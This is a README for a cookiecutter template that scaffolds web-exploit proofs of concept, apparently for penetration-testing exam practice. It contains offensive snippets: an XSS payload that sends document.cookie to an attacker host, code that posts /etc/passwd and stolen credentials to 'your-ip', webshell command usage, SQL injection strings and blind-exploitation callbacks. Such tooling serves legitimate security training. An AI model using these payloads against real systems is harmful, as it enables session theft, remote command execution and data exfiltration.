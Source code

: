 # {{ cookiecutter.project_name }}

**Target URL:** {{ cookiecutter.target_url }}

## Quick Start

```bash
# 1. Setup environment
make dev

# 2. Start callback server (terminal 1)
uv run {{ cookiecutter.project_slug }} --server

# 3. Run exploit (terminal 2)
uv run {{ cookiecutter.project_slug }} -t http://target.com
```

## Writing Your Exploit

Edit `src/{{ cookiecutter.project_slug }}/exploit.py`:

```python
from {{ cookiecutter.project_slug }}.utils.output import out

def run(args):
    target = args.target.rstrip('/')

    out.info("Testing target...")
    resp = requests.get(f"{target}/vulnerable-endpoint", verify=False)

    if "vulnerable" in resp.text:
        out.success("Target is vulnerable!")

        # Trigger callback to your server
        requests.get("http://your-ip:8000/success")
    else:
        out.error("Not vulnerable")
```

## Utilities Available

### Colored Output
```python
from {{ cookiecutter.project_slug }}.utils.output import out

out.success("Exploited!")
out.error("Failed")
out.info("Trying...")
out.warning("Slow connection")
```

### Encoding/Decoding
```python
from {{ cookiecutter.project_slug }}.utils.encoding import base64_encode, url_encode

payload = base64_encode("admin' OR '1'='1")
encoded = url_encode("<script>alert(1)</script>")
```

### Timing Utilities
```python
from {{ cookiecutter.project_slug }}.utils.timing import time_ms, identify_timestamp, epoch_range

# Generate timestamp
token = time_ms()

# Identify unknown timestamp
info = identify_timestamp("1735689600000")
print(info['type'])  # epoch_milliseconds
print(info['date'])  # 2025-01-01 00:00:00

# Generate epoch range - now accepts epoch timestamps directly!
timestamps = epoch_range(1735689600, 1735776000, step_minutes=60)  # Using epoch
timestamps = epoch_range('2025-01-01 00:00:00', '2025-01-02 00:00:00')  # Using strings
```

### Process Execution
```python
from {{ cookiecutter.project_slug }}.utils.process import run

# Run binary
stdout, stderr, code = run("./exploit")

# With input
stdout, stderr, code = run("./vulnerable", input_data=payload)
```

## Server Usage

The built-in server (`servers/server.py`):
- **Serves payloads** from `payloads/` directory
- **Logs all requests** to `logs/server.ndjson`
- **CORS enabled** for XSS testing

### Start Server
```bash
# Via CLI (default port 8000)
uv run {{ cookiecutter.project_slug }} --server

# Custom port
uv run {{ cookiecutter.project_slug }} --server --lport 8080

# Bind to specific interface
uv run {{ cookiecutter.project_slug }} --server --lhost 10.10.14.5 --lport 8080

# Direct module execution
python -m {{ cookiecutter.project_slug }}.servers.server
```

### Check Logs
```bash
# Watch in real-time
tail -f logs/server.ndjson | jq .

# Search for specific callbacks
grep "xss" logs/server.ndjson | jq .
```

### Apache Fallback (OSWE Exam)

If exam requires Apache2, use `apache_hooks.py` instead of `server_hooks.py`:

```python
# Change this:
# from utils.server_hooks import get_cookie

# To this:
from utils.apache_hooks import get_cookie

# Same API, reads Apache logs instead
cookie = get_cookie('/var/log/apache2/access.log', timeout=30)
```

No server needed - just reads Apache access logs directly!

## Included Payloads

### XSS (`payloads/xss/`)
- `examples.txt` - Copy-paste XSS payloads
- `steal-cookie.js` - Cookie stealer
- `steal-all.js` - Full data exfiltration

Example:
```html
<img src=x onerror="fetch('http://your-ip:8000/xss?c='+btoa(document.cookie))">
```

### Webshells (`payloads/shells/`)
- `cmd.jsp` - Java servers
- `cmd.aspx` - .NET/IIS servers
- `cmd.php` - PHP servers

All shells use same interface:
```python
resp = requests.get("http://target/shell.jsp?cmd=whoami")
print(resp.text)
```

## Common Code Snippets

### HTTP Requests
```python
import requests
requests.packages.urllib3.disable_warnings()  # Disable SSL warnings

session = requests.Session()
session.verify = False  # Skip SSL verification
session.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
```

### Blind Exploitation Callbacks
```python
# SQLi boolean-based
if "admin" in result:
    requests.get(f"http://your-ip:8000/sqli?char={char}&pos={pos}")

# Time-based confirmation
import time
start = time.time()
make_request()
if time.time() - start > 5:
    requests.get(f"http://your-ip:8000/blind?confirmed=true")
```

### Data Exfiltration
```python
# POST JSON data
stolen_data = {"username": "admin", "password": "found_it"}
requests.post('http://your-ip:8000/exfil', json=stolen_data)

# POST file contents
with open('/etc/passwd', 'r') as f:
    requests.post('http://your-ip:8000/file', data=f.read())
```

## CLI Options

```bash
{{ cookiecutter.project_slug }} --help

Options:
  -t, --target URL     Target URL (default: {{ cookiecutter.target_url }})
  -p, --proxy URL      HTTP proxy for requests
  --threads N          Number of threads
  -v, --verbose        Verbose output
  --server             Start callback server
  --lhost IP           Local host for server/callbacks (auto-detected)
  --lport N            Local port for server/callbacks (default: 8000)
```

## Files

- `src/{{ cookiecutter.project_slug }}/exploit.py` - **Main exploit code** (edit this!)
- `src/{{ cookiecutter.project_slug }}/utils/` - Helper utilities
- `servers/server.py` - HTTP callback server
- `payloads/` - XSS payloads and webshells
- `logs/server.ndjson` - Server request logs

---

Created: {{ cookiecutter.full_name }}
Template: [cookiecutter-poc-uv](https://github.com/kwkeefer/cookiecutter-poc-uv)